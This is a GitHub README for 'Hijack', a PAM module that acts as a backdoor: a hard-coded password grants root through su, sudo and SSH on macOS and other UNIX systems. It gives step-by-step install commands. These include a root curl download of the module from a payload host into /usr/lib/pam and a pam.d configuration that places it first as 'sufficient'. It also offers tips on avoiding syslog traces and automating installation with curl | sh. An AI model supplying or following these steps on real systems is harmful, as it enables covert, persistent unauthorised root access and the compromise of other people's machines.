 # Hijack
Hijack is a PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.

**NOTES ON SECURITY**
 Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it.
 ```
 $ strings /usr/lib/pam/hijack.so
 hijack
 $ # ouch!
 ```
 I know, I know, this really shouldn't happen. But it does, and I'm too lazy to do anything about it.

 Fixing it is actually only a matter of incorporating a hash function, and probably won't take long – but alas, there's never a shortage of other crap I have to do. If anyone wants to have a go at it, I'd be happy to accept a pull request.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but I've surprisingly had several people request the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically build and function on any UNIX system that employs PAM authentication. Like everything else Apple, OSX PAM headers are likely to be a bit out of whack so linux support might take a bit of trial and error. If anyone does manage to figure it out, please do tell how you've made it work.

IMPORTANT: Hijack does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

**(1)** Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

**(2)** Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `hijack.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     hijack.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through hijack, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as hijack will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out!
```
$ su
Password:
#
```
After providing the hijack password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.
